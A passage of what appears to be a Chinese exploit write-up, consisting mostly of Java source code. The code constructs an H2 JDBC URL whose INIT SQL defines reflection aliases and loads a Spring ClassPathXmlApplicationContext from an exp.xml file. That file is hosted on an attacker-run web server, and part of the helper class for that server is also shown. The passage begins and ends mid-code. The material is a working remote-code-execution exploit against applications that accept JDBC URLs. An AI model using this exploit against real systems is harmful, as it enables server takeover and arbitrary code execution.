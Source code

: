 ```java
        server.serveFile("/exp.xml", xmlBytes);

        String ip = server.ip;
        int port = server.port;
        String xmlUrl = "http://" + ip + ":" + port + "/exp.xml";

        // H2 SQL INIT statement construction
        sqlList.add("DROP ALIAS IF EXISTS INVOKE_CONSTRUCTOR");
        sqlList.add("DROP ALIAS IF EXISTS INVOKE_METHOD");
        sqlList.add("DROP ALIAS IF EXISTS URI_CREATE");
        sqlList.add("DROP ALIAS IF EXISTS CLASS_FOR_NAME");

        sqlList.add("CREATE ALIAS INVOKE_CONSTRUCTOR FOR 'org.apache.commons.beanutils.ConstructorUtils.invokeConstructor(java.lang.Class, java.lang.Object)'");
        sqlList.add("CREATE ALIAS INVOKE_METHOD FOR 'org.apache.commons.beanutils.MethodUtils.invokeMethod(java.lang.Object, java.lang.String, java.lang.Object[])'");
        sqlList.add("CREATE ALIAS URI_CREATE FOR 'java.net.URI.create(java.lang.String)'");
        sqlList.add("CREATE ALIAS CLASS_FOR_NAME FOR 'java.lang.Class.forName(java.lang.String)'");

        sqlList.add("SET @uri=URI_CREATE('" + xmlUrl + "')");
        sqlList.add("SET @xml_url_obj=INVOKE_METHOD(@uri, 'toString', NULL)");
        sqlList.add("SET @context_clazz=CLASS_FOR_NAME('org.springframework.context.support.ClassPathXmlApplicationContext')");
        sqlList.add("SELECT INVOKE_CONSTRUCTOR(@context_clazz, @xml_url_obj)");

        // Combine the SQL list with escaped `\;` separators
        String initSql = String.join("\\;", sqlList) + "\\;";
        String url = "jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=" + initSql;

        return url;
    }

    private static String bytesToHex(byte[] bytes) {
        StringBuilder sb = new StringBuilder(bytes.length * 2);
        for (byte b : bytes) {
            sb.append(String.format("%02x", b));
        }
        return sb.toString();
    }
}
```

辅助类WebServer

```java
package org.h2jdbc;

import com.sun.net.httpserver.HttpExchange;
import com.sun.net.httpserver.HttpHandler;
import com.sun.net.httpserver.HttpServer;

import java.io.OutputStream;
import java.net.InetAddress;
import java.net.InetSocketAddress;
import java.util.HashMap;
import java.util.Map;

public class WebServer {

    public final String ip;
    public final int port;

    private static WebServer instance;
    private final HttpServer server;
```